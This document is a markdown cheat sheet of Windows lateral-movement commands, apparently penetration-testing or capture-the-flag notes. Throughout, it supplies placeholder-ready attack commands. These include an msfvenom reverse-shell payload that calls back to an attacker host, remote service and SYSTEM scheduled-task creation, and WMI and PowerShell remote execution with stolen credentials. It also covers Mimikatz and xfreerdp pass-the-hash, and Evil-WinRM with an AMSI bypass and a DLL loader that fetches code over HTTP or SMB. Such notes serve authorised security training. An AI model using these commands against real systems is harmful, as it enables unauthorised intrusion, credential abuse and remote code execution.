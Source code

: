 # Connection

## Remote administration

### Scheduler

Note that executables created by msfvenom to be used by a service have to be created with type exe-service instead of exe to prevent the shell from dying after the task is completed.

```
msfvenom -p windows/shell/reverse_tcp -f exe-service LHOST=<ip> LPORT=<port> -o <filename>.exe
```

With sc.exe

```
sc.exe \\<host> create THMservice binPath="<cmd>" start= auto
sc.exe \\<host> start THMservice
```

With schtasks

```
schtasks /s <host> /RU "SYSTEM" /create /tn "<task name>" /tr "<cmd or payload>" /sc ONCE /sd 01/01/1970 /st 00:00 
schtasks /s <host> /run /TN "<task name>" 
```

### RunAs

Run with stored credentials

```
cmdkey /list                                      //get a list of credentials, runas will use the ones in memory
runas /savecred /user:<domain>\<user> "\\<ip>\<path>"      //connect to share
runas /savecred /user:<domain>\<user> "cmd.exe /k <cmd>"   //run command as user
```

Run by specifying username and password

```
runas /env /noprofile /user:<domain>/<user> <password> "<cmd>"
runas /netonly /user:<domain>\<user> "<cmd>"
```

### WMI

Execute code

```
wmic.exe /user:<user> /password:<pass> /node:<host> process call create "cmd.exe /c <cmd>" 
```

Run local msi installer

```
wmic.exe /user:<user> /password:<pass> /node:<host>  product call install PackageLocation="<path to msi>"
```

### RDP

Mimikatz

```
privilege::debug
sekurlsa::pth /user:<user> /domain:<domain> /ntlm:<ntlm hash> /run:"mstsc.exe /restrictedadmin"
```

Xfreerdp

```
xfreerdp +clipboard /dynamic-resolution /cert-ignore /u:<user> /pth:<ntlm hash> /v:<host>
```

## Powershell remoting

### Manage sessions

Enable remoting (Administrative privileges required)

```
Enable-PSRemoting
```

connect to machine

```
Enter-PSSession -ComputerName <fqdn>
```

Store session data and connect

```
$<varname>= New-PSSession -ComputerName <fqdn>
Enter-PSSession -Sessions <varname>
```

### Code execution

Invoke-Command

```
//disable limit on laguage, enable scriptlets
Invoke-Command -ComputerName <fqdn> -ScriptBlock {$ExecutionContext.SessionState.LanguageMode}

Invoke-Command -ComputerName <fqdn> -ScriptBlock {<code>} 
Invoke-Command -ComputerName <fqdn> -FilePath <path>    //script from file
```

#### Code execution with valid credentials

Load credentials

```
$session = New-PSSession -ComputerName <fqdn>
$secPassword = ConvertTo-SecureString '<pass>' -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential('htb.local\<username>', $secPassword)
```

Execute command

```
Invoke-Command -ComputerName <fqdn> -Credential $cred -ScriptBlock {<commands>}
```

Run a PowerShell script remotely

```
Invoke-Command -Credential $cred -ComputerName <fqdn> -FilePath <path to ps1 file> -Session $session
```

## Powershell + WMI module

### Connect to WMI

Store credentials

```
$username = '<user>';
$password = '<pass>';
$securePassword = ConvertTo-SecureString $password -AsPlainText -Force;
$credential = New-Object System.Management.Automation.PSCredential $username, $securePassword;
```

Start session. WMI supports two protocols: DCOM (port 135 and 49152-65535) or Wsman (ports 5985 and 5986)

```
$Opt = New-CimSessionOption -Protocol <DCOM|Wsman>
$Session = New-Cimsession -ComputerName <host> -Credential $credential -SessionOption $Opt -ErrorAction Stop
```

### Execute command

```
Invoke-CimMethod -CimSession $Session -ClassName Win32_Process -MethodName Create -Arguments @{
CommandLine = "<cmd>"
}
```

### Create service

```
Invoke-CimMethod -CimSession $Session -ClassName Win32_Service -MethodName Create -Arguments @{
Name = "<name>";
DisplayName = "<name>";
PathName = "<payload>";
ServiceType = [byte]::Parse("16");
StartMode = "Manual"
}
```

Retrieve and start the service

```
$Service = Get-CimInstance -CimSession $Session -ClassName Win32_Service -filter "Name LIKE '<name>'"
Invoke-CimMethod -InputObject $Service -MethodName StartService
```

### Create scheduled task

```
$Command = "<executable i.e. cmd, powershell...>"
$Args = "<args>"

$Action = New-ScheduledTaskAction -CimSession $Session -Execute $Command -Argument $Args
Register-ScheduledTask -CimSession $Session -Action $Action -User "NT AUTHORITY\SYSTEM" -TaskName "<name>"
Start-ScheduledTask -CimSession $Session -TaskName "<name>"
```

### Install MSI package

```
Invoke-CimMethod -CimSession $Session -ClassName Win32_Product -MethodName Install -Arguments @{PackageLocation = "<path to msi>"; Options = ""; AllUsers = $false}
```

## Evil-WinRM

Ps1 files must be stored in path specified by -s option. To execute a script simply type its name in the console.

```
evil-winrm -i <ip> -u Administrator -p <password>
evil-winrm -i <ip> -u Administrator -H <hash>
```

### In-memory execution + AMSI Bypass

Find pre-compiled binaries for in-memory execution here: [https://github.com/Flangvik/SharpCollection](https://github.com/Flangvik/SharpCollection)

```
menu
Bypass-4MSI
Invoke-Binary <path to local compiled file>
```

### Dll loader

```
Dll-loader -http -path http://<path to .dll>
Dll-loader -smb -path \\<share>\\<file>.dll
Dll-loader -local -path C:\<path to dll>
```
